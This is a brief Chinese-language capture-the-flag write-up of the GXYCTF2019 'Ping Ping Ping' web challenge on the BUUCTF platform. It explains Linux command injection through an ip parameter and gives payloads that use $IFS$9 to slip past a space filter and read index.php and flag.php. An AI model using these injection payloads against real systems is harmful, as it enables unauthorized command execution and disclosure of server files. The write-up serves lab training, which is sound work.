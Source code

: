 # BUUCTF web记录 2


## 0x08 [GXYCTF2019]Ping Ping Ping

[题目链接](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)

相关知识点：

- Linux命令执行注入
- `$IFS$9`绕过空格过滤

输入`?ip=127.0.0.1;cat$IFS$9index.php`查看index.php内容。![image-20210302171046322](image-20210302171046322.png "image-20210302171046322")

使用`$IFS$9`绕过空格，输入以下内容，将`ls`的结果作为`cat`命令的参数，查看`flag.php`和`index.php`内容。

```
?ip=127.0.0.1;cat$IFS$9`ls`
```

注意网页上没有直接显示flag，flag藏在注释里。
